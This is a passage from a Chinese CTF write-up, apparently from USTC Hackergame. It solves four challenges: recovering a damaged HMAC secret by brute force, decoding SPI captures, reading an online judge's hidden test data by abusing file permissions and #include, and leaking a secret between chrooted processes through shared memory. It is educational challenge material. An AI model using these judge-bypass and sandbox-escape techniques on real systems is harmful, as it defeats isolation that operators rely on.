        check_equals(len(argv), 2)
        sign_b64 = urlsafe_b64encode(sign(argv[1]))
        print('HS384 sign:', sign_b64.decode('utf-8'))
    except (SystemExit, Exception):
        print('Usag' + 'e: HS384.py <fil' + 'e>')
```

我们注意到程序中有几处 `check_equals`，这显然是帮助我们检查程序有没有修复对。所以我们检查一下程序。

```python
check_equals('create', 'cre' + 'ate')
check_equals('referrer', 'refer' + 'rer')
```

很明显没问题。

```python
secret = b'ustc.edu.cn'
check_equals(len(secret), 39)
```

??? 看来，这个似乎至关重要的字符串里也被删掉了一些字符，而且不少！下面的签名中是要用到这个字符串的。

```python
secret_sha384 = 'ec18f9dbc4aba825c7d4f9c726db1cb0d0babf47f' +\
                'a170f33d53bc62074271866a4e4d1325dc27f644fdad'
check_equals(sha384(secret).hexdigest(), secret_sha384)
```

这里则是利用校验值的方法帮助我们检验还原得到的 `secret` 是否正确。然而，糟糕的是，这个 `secret_sha384` 的长度也只有 85！正常 `sha384` 的长度应该是 96。

先看看这个 `secret` 原本可能是什么样的。借用正则表达式的语法，应该是：

```plain
us+t+c+e?.ed+u.c+n+e?
```

简单计算，会发现可能的组合数其实并不多。不妨暴力枚举原始的字符串，然后逐个计算 sha384 并做“惜字如金化”处理，然后比较与预期是否一致。考虑到题目给出的 sha384 是由两部分组成的，中间字符删减的状况可能会比较复杂，故舍弃后面部分，仅比较前 40 位。这肯定已经足够了。

```python
from hashlib import sha384

'ustc.edu.cn'
# Pattern: us+t+c+e?.ed+u.c+n+e?

'''
c1, c2, c3, c4<=1, c5, c6, c7, c8<=1
c1 + ... + c8 = 39 - 11 = 28
'''

xzrjHash = 'ec18f9dbc4aba825c7d4f9c726db1cb0d0babf47f' +\
    'a170f33d53bc62074271866a4e4d1325dc27f644fdad'

def xzrjfication(s: str):
    aeiou = 'aeiouAEIOU'
    wordch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
    uniquify = 'qwrtypsdfghjklzxcvbnm'

    # Rule 1: truncate e at end, with a non-aeiou before.
    def shouldTruncate(i: int) -> bool:
        if i == 0: return False
        curr = s[i]
        pre = s[i - 1]
        nxt = s[i + 1 : i + 2]
        if curr not in 'Ee':
            return False
        if nxt not in wordch or nxt == '':
            if pre not in aeiou:
                return True
        return False
    s1 = ''
    for i in range(len(s)):
        if not shouldTruncate(i):
            s1 += s[i]

    # Rule 2: uniquify non-aeiou's, but lowercase only.
    s2 = ''
    for i in range(len(s1)):
        if i == 0 or s1[i] not in uniquify or s1[i] != s1[i - 1]:
            s2 += s1[i]

    return s2

digits = 8
remain = 28
expected_len = 39
limits = [40, 40, 40, 1, 40, 40, 40, 1]
values = [0] * digits
times = 0
pattern = [
    ['us', -1],
    ['s', 0],
    ['t', -1],
    ['t', 1],
    ['c', -1],
    ['c', 2],
    ['e', 3],
    ['.', -1],
    ['ed', -1],
    ['d', 4],
    ['u', -1],
    ['.', -1],
    ['c', -1],
    ['c', 5],
    ['n', -1],
    ['n', 6],
    ['e', 7]
]

def generate(repeats: list[int]):
    s = ''
    for [ch, idx] in pattern:
        r = 1
        if idx >= 0:
            r = repeats[idx]
        s += ch * r
    return s

# print(generate([0, 0, 0, 0, 0, 0, 0, 0]))

def checkHash(text: str):
    return xzrjfication(sha384(text.encode('UTF-8')).hexdigest())[0:40] \
        == xzrjHash[0:40]

def dfs(idx: int):
    global remain, limits, values, times
    if idx == digits:
        s = generate(values)
        assert(len(s) == expected_len)
        times += 1
        if times % 10000 == 0:
            print(times, s)
        if checkHash(s):
            return s
        return None
    if idx == digits - 1:
        values[idx] = remain
        if remain > limits[idx]:
            return None
        return dfs(idx + 1)
    for val in range(0, min(limits[idx], remain) + 1):
        values[idx] = val
        remain -= val
        result = dfs(idx + 1)
        remain += val
        if result != None:
            return result
    return None

# print(xzrjfication())

result = dfs(0)
print('Found result', result)
```

运行程序，不久后就会得到 `usssttttttce.edddddu.ccccccnnnnnnnnnnnn`。再利用 Python 计算其 sha384，会得到一个与程序中预期结果至少看起来非常像的东西。这时，就可以放心地用这个字符串替换掉原来的 `secret`，然后注释掉后面的 `check_equals` 了。

依次下载三个文件并运行签名，即可获得 flag。

RS384 程序中是基于 `phrase_list` 生成一个数，然后检验其是否是一个大合数的因子。暴力分解大合数显然不可行，但是其他的方法也没有想到。

### Flag1

```plain
flag{y0u-kn0w-h0w-t0-sav3-7h3-l3773rs-r1gh7-bafc9efca9045951}
```

You know how to save the letters, right?

## 24. 片上系统 (*200/500, task1)

> 关键词：sigrok PulseView、十六进制

解压文件后，得到了三个文件。

- `login-1-1`，这是一份二进制文件，且字节前四位基本全是 `F`。显然是收集到的原始数据。
- `metadata`，这是个文本文件，似乎指明了方向。
- `version`，仅包含一个 `2`。

指明方向的玩意是这样的。

```ini
[global]
sigrok version=0.5.2

[device 1]
capturefile=logic-1
total probes=8
samplerate=16 MHz
total analog=0
probe1=D0
probe2=D1
probe3=D2
probe4=D3
unitsize=1
```

用来处理这个数据的软件看起来叫 sigrok，版本是 0.5.2。采样率看来是 16MHz，而不是题目上的 24MHz。

网络搜索 `sigrok`，可以找到这个 [PulseView 软件下载界面](https://sigrok.org/wiki/Downloads)。又有 `sigrok`，又有 `pulseview`，这大概率是我们要的软件了。

下载后打开软件，点击“打开”图标。

<mdc-imgborder>


</mdc-imgborder>

显然我们手里这个 `login-1-1` 数据文件是非常 Raw 的，所以选择 Import Raw binary logic data。接下来会询问 Number of channels 和 Sample rate，根据上面的 `metadata` 文件，很明显应该是 `8` 和 `16`。

于是出来了一张极其晦涩的图。


放大后可以看到许多方波图样。进一步搜索关于 PulseView 软件的信息，不难发现这个软件包含自动协议解码功能。选择菜单中的 Add protocol decoder，找到 Memory 类。题目已经明确指出是 SPI 协议，所以就选 SPI。


结果下面出现了 There are no channels assigned to this decoder？

点击 `SD Card (SPI mode)` 标签，会发现软件需要我们选择 `Clock`, `MISO`, `MOSI` 和 `Chip-select` 对应的频道。不难猜测，前三个的意思是“时钟”“输入”“输出”。

逝者如斯夫，不舍昼夜。时钟作为同步的标尺，肯定是不能停下的，所以应该是最密集的频道 1；输入和输出数据应该都不少，但是作为读取操作，输出肯定更多，因此输入是 2，输出是 3。剩下一个，自然就是 0。

选完后，下方显示出许多小标签。适当放大，可以看到标签上有许多十六进制码。第一个 flag 说不定就在这些十六进制码里面。


右键这些标签，选择 Export all annotations，将会得到一个文本文件。打开文本文件搜索 `66`（这是字母 `f` 对应 ASCII 编码的十六进制值）。只需片刻就会找到这样的数据：

```plain
66 6C 61 67 7B 30 4B 5F 79 6F 75 5F 67 6F 54 5F
74 68 33 5F 62 34 73 49 63 5F 31 64 45 34 5F 63
61 52 52 79 5F 30 4E 7D
```

使用熟悉的工具进行解码，得到

```plain
flag{0K_you_goT_th3_b4sIc_1dE4_caRRy_0N}
```

完成！我不懂操作系统，至于 Carry on 那就算了。

### Flag1

```plain
flag{0K_you_goT_th3_b4sIc_1dE4_caRRy_0N}
```

OK, you got the basic idea. Carry on.

## 10. 安全的在线评测 (*150/400, task1)

阅读判题脚本，可以得到这些信息：

- 程序存放 `./temp/code.c` `./temp/temp_bin`
- 静态数据 `./data/static.in` `./data/static.out`
- 动态数据 `./data/dynamic%d.in` `./data/dynamic%d.out`

注意到程序很谨慎地对数据目录和数据文件设置了 `0700` 权限。但是果真如此吗？

```python
os.makedirs(DATA, mode=0o700, exist_ok=True)

for i in range(N):
    inpaths.append(os.path.join(DATA, f'dynamic{i}.in'))
    outpaths.append(os.path.join(DATA, f'dynamic{i}.out'))
    ...
    os.chmod(inpaths[i], 0o700)
    os.chmod(outpaths[i], 0o700)
```

静态数据文件不是！而且，`os.makedirs` 时，`./data/` 目录显然是已经存在了。所以 `./data/` 和静态数据文件都很可能是有读取权限的。那就简单轻松愉快了。

```cpp
#include<stdio.h>

char buf[2048];
int main() {
    FILE *fp = fopen("./data/static.out", "r");
    fgets(buf, 2047, fp);
    printf("%s", buf); // 注意 fgets 的结果包含行尾字符
    fgets(buf, 2047, fp);
    printf("%s", buf);
}
```

为什么路径写的是 `./data/static.out`，而不是 `../data/static.out`？仔细观察程序运行方式，不难发现 `temp_dir` 程序的工作目录会继承 Python 判题脚本的工作目录，而不是在 `./temp` 下面。

静态数据于是直接通过了。

但是动态数据文件是真真切切的 `0700` 权限，无法被读取。读取会出现 Runtime Error。

### 更多尝试

#### 令程序在静态数据测试时重命名 `./data`

```cpp
#include<stdio.h>

char buf[2048];
int main() {
    FILE *fp = fopen("./data/static.out", "r");
    fgets(buf, 2047, fp);
    printf("%s", buf); // 注意 fgets 的结果包含行尾字符
    fgets(buf, 2047, fp);
    printf("%s", buf);
    fclose(fp);
    rename("./data", "./data-1");
}
```

但是，这样并不会导致判题脚本故障。显然，没有写入权限。

#### Output limit exceeded

通过致死量的输出弄爆缓冲区，会怎么样？

```cpp
#include<stdio.h>

int main() {
    while(1) {
        printf("1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111");
    }
}
```

这样会得到一行奇怪的信息，但是没有 flag。

```plain
./run.sh: line 15:    17 Killed                  gosu judger /bin/bash -c "exec
-a \"Wow! You are reading cmdline of proc! But no flag here, try something else!
^_^\" /usr/local/bin/python ./checker.py"
```

#### 通过 `#include` 读取数据

注意到编译器没有通过 `su` 限制权限。这样可以读到动态数据内容。

```cpp
#include "../data/dynamic1.out"
```

但是似乎无法避免编译器处理此文件时报错，更无法将内容有效地插入到程序中。

#### 通过 `#include` 读取执行脚本

```cpp
#define judger ;. // 宏定义使得在特定位置报错
#define shm ;.
#define cat ;.
#define mv ;.
#define cp ;.
#define rm ;.
#define checker ;.
#define flag1 ;.
#define flag2 ;.
#define chmod ;.
#define chown ;.
#include "../run.sh"
```

可以还原出这样的脚本：

```bash
#!/bin/bash
cat /root/flag1 > /dev/shm/flag1
chown judger:judger /dev/shm/flag1
chmod 700 /dev/shm/flag1

cat /root/flag2 > /dev/shm/flag2
chown judger:judger /dev/shm/flag2
chmod 700 /dev/shm/flag2

cp -r /judger /dev/shm/judger
chown -R judger:judger /dev/shm/judger
chmod 777 /dev/shm/judger/temp
cd /dev/shm/judger
gosu judger /bin/bash -c "exec -a \"Wow! You are reading cmdline of proc! \
  But no flag here, try something else! ^_^\" /usr/local/bin/python ./checker.py"
```

这里我们看到 flag 在 `/dev/shm/flag2` 中。试着读一下？

```cpp
#include "/dev/shm/flag2"
```

No such file or directory。显然是 `import flag` 的同时就已经把它删掉了。

### 其他做法

#### 通过 `#include` 读取静态数据

```cpp
#include "../data/static.in"
```

```cpp
#include "../data/static.out"
```

分别提交，就会得到大整数和其中一个质因子。另一个通过 Python 计算除法就可以得到。

### 不可行的做法

#### 从 `flag.py` 窃取 flag

Flag 是从 `/dev/shm/flag1` 和 `/dev/shm/flag2` 读取的，不在 `flag.py` 中。

如果试图读取 `flag.py`，会找到 `fake{test1}` 和 `fake{test2}`。

### Flag1

```plain
flag{the_compiler_is_my_eyes_93a0e98a58}
```

The compiler is my eyes. 这是警告选手不要使用违规操作时经常用到的话。

## 26. 看不见的彼方 (*300)

首先，什么是万恶的 `chroot` 和 `seccomp`？查一查资料，不难找到解释。

- `chroot` 为修改程序执行的根目录（不是工作目录），将程序对文件的访问限制在某一目录中。这样，即使程序试图用 `..` 访问外部目录也无济于事。两个 `chroot` 不同的程序因此无法使用文件读写的方式交流。
- `seccomp` 是限制特定的系统调用。一旦程序执行了被限制的系统调用，就会被处死。

那么，此题中是怎么限制的呢？阅读代码，可以找到这些信息：

- 天空：Debian 11
- 土地：`pwn`
- 牢笼：`/home/pwn/A/` `/home/pwn/B/`
- 锁链：禁止使用 `socket` `accept` `bind` `connect` `listen` `recv` `rcevfrom` `rcevmsg` `send` `sendmsg` `sendto` `setsockopt` `shutdown` `socketcall` `socketpair` `getsockname` `getpeername` `getsockopt` `accept4` `rcevmmsg` `sendmmsg` `ptrace`

我们知道，文件和 Socket 是两种常用的进程间交流方式。`chroot` 限制了文件方式，而 `seccomp` 限制了 Socket 交流。然而，进一步搜索资料发现，`chroot` 并不是什么安全特性，并非提供什么“可靠隔离”的方法。网上可以找到一种逃逸 `chroot` 的方法。

1. 根目录为 `/home/pwn/A/`，当前工作目录为 `/home/pwn/A/`，也就是 `/`。
2. 创建文件夹 `tempdir`。
3. 将根目录设为 `tempdir`。这样，当前工作目录将无法用此根下的绝对路径表示。
4. 多次切换工作目录到 `..`。足够多次数后，将会退到真实的系统根目录 `/`。
5. 将根目录设为 `.`，即真实的系统根目录。

如果把工作目录比喻为“当前位置”，把根目录比喻为“世界边界结界”，那么用 MC 可以很形象地说明这个问题。

  
  
  
  


那么，让 Alice 和 Bob 都逃出来，然后用 `/tmp/` 或者 `/dev/shm/` 里的文件交流不就行了吗？等等！他们能 `chroot` 吗？

很遗憾，没有 Root 权限的情况下，没有什么可靠的 `chroot` 逃逸方法，除了使用 `ptrace`。但是这玩意已经被禁了。

不就是进程间通信吗？找找别的方法。

- 管道？不行，因为这两个进程没有血缘关系。
- 命名管道？命名管道需要以文件节点为依据创建，但是很明显 Alice 和 Bob 得不到一个共享的文件节点。
- 信号？信号内容很有限。难道 Alice 要通过反复有节奏地命令 Bob 去世的方式来传递信息？权限上可能也不允许。
- 共享内存？好像可以！

去网上找一找“共享内存 进程间通信”，可以抄到这样的代码：

```cpp
/* --- comm.h --- */
#ifndef _COMM_H__
#define _COMM_H__

#include<stdio.h>
#include<sys/types.h>
#include<sys/ipc.h>
#include<sys/shm.h>

#define PATHNAME "."
#define PROJ_ID 0x3654

int CreateShm(int size);
int DestroyShm(int shmid);
int GetShm(int size);
#endif
```

```cpp
/* --- comm.c --- */
#include"comm.h"
 
static int CommShm(int size,int flags) {
    key_t key = ftok(PATHNAME,PROJ_ID);
    if(key < 0) {
    	perror("ftok");
    	return -1;
    }
    int shmid = 0;
    if((shmid = shmget(key,size,flags)) < 0) {
        perror("shmget");
        return -2;
    }
    return shmid;
}
int DestroyShm(int shmid) {
    if(shmctl(shmid,IPC_RMID,NULL) < 0) {
        perror("shmctl");
        return -1;
    }
    return 0;
}
int CreateShm(int size) {
    return CommShm(size,IPC_CREAT | IPC_EXCL | 0666);
}
int GetShm(int size) {
    return CommShm(size,IPC_CREAT);
}
```

```cpp
/* --- client.c --- */
#include "comm.h"
#include <unistd.h>

int main() {
    int shmid = CreateShm(4096);
    sleep(1);
    char *addr = shmat(shmid,NULL,0);
    sleep(2);
    int i = 0;
    while(i < 26) {
        addr[i] = 'A' + i;
        i++;
        addr[i] = 0;
        sleep(1);
    }
    shmdt(addr);
    sleep(2);
    return 0;
}
```

```cpp
/* --- server.c --- */
#include "comm.h"
#include <unistd.h>

int main() {
    int shmid = GetShm(4096);
 
    char *addr = shmat(shmid,NULL,0);
    sleep(2);
    int i = 0;
    while(i++ < 26) {
        printf("client# %s\n",addr);
        sleep(1);
    }
    shmdt(addr);
    sleep(2);
    DestroyShm(shmid);
    return 0;
}
```

先后台启动 `client`，然后启动 `server`，就能看到它们通过共享内存传递信息。`seccomp` 也没有禁止这个方法。但是，这里有一个问题。在 `CommShm` 中，`key` 的创建需要依赖一个文件名。这个文件名可以任意取，但是实际情况下 Alice 和 Bob 并不会有共享的文件名！然而，这个 `ftok` 看起来和共享内存没什么关系。有没有办法绕过这个 `ftok` 来创建 `key` 呢？我们不妨看看 `ftok` 是个啥。

> 在一般的UNIX实现中，是将文件的索引节点号取出，前面加上子序号得到key_t的返回值。

这里有两个信息：

- `key_t` 就是个整数值，而且看起来可以任意取。
- `ftok` 只是避免 `key` 冲突而采用的。我们现在显然不需要考虑什么冲突问题。

所以把 `ftok` 那部分注释掉，直接滚个键盘，

```cpp
key_t key = 27339987;
```

然后实现我们的 `Alice` 和 `Bob`。

```cpp
/* --- Alice.c --- */
#include"comm.h"
#include<unistd.h>
#include<stdlib.h>

int main() {
    int shmid = CreateShm(4096);
    sleep(1);
    char *addr = shmat(shmid,NULL,0);
    
    FILE *fp = fopen("/secret", "r");
    char buf[2048];
    fgets(buf, 2047, fp);
    for(int i = 0; i < 2048; i++) {
        addr[i] = buf[i];
    }
    
    shmdt(addr);
    return 0;
}
```

```cpp
/* --- Bob.c --- */
#include"comm.h"
#include<unistd.h>
#include<stdlib.h>
 
int main() {
    int shmid = GetShm(4096);
 
    char *addr = shmat(shmid,NULL,0);
    sleep(2);
    
    printf("%s\n", addr);
    
    shmdt(addr);
    sleep(1);
    DestroyShm(shmid);
    return 0;
}
```

因为程序需要在 `chroot` 环境下运行，不能依赖系统的运行库。所以编译这样做：

```bash
gcc --static Alice.c comm.c -o Alice
```

编译好提交。

<mdc-imgborder>


</mdc-imgborder>

### Flag

```plain
flag{ChR00t_ISNOTFULL_1501AtiOn_7c02e81e28}
```

Chroot is not full isolation. 哪怕身处两地，哪怕有着沉重的枷锁，只要在同一片天空下，就算是来去匆匆的风，也能传递你我的讯息。

</mdc-composition>
